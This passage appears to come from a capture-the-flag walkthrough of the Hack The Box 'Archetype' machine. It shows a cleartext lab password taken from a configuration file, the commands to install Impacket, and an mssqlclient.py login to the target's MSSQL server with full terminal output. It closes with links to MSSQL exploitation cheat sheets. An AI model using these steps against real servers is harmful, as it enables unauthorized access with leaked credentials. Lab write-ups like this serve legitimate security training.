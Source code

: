 By reviewing the content of this configuration file, we spot in cleartext the password of the user `sql_svc`, which is `M3g4c0rp123`, for the host `ARCHETYPE`. With the provided credentials we just need a way to connect and authenticate to the MSSQL server. [Impacket](https://github.com/SecureAuthCorp/impacket) tool includes a valuable python script called `mssqlclient.py` which offers such functionality.

A quick installation guide for `impacket`:

	git clone https://github.com/SecureAuthCorp/impacket.git
	cd impacket
	pip3 install .
	# OR:
	sudo python3 setup.py install
	# In case you are missing some modules:
	pip3 install -r requirements.txt

And in case we wouldn't have pip3 installed:
`sudo apt install python3 python3-pip`

Now, to learn more about the tool and specifically of the mssqlclient.py script:

	cd impacket/examples/
	python3 mssqlclient.py -h

We can try to connect to the MSSQL server by using impacket's mssqlclient.py script along with the following flags:

	-windows-auth : this flag is specified to use Windows Authentication

	python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.118]─[scrage@htb-b5tzs8mew9]─[~/impacket/examples]
	└──╼ [★]$ python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.95.187 -windows-auth
	Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 
	
	Password:
	[*] Encryption required, switching to TLS
	[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
	[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
	[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
	[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
	[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
	[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
	[!] Press help for extra shell commands
	SQL (ARCHETYPE\sql_svc  dbo@master)> 

After providing the password (`M3g4c0rp123`) we read in the downloaded config file earlier, we are in.


# 3. Foothold

We can check the help page for the SQL shell by typing the `help` command.
Two useful articles on MSSQL Server exploitations:
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
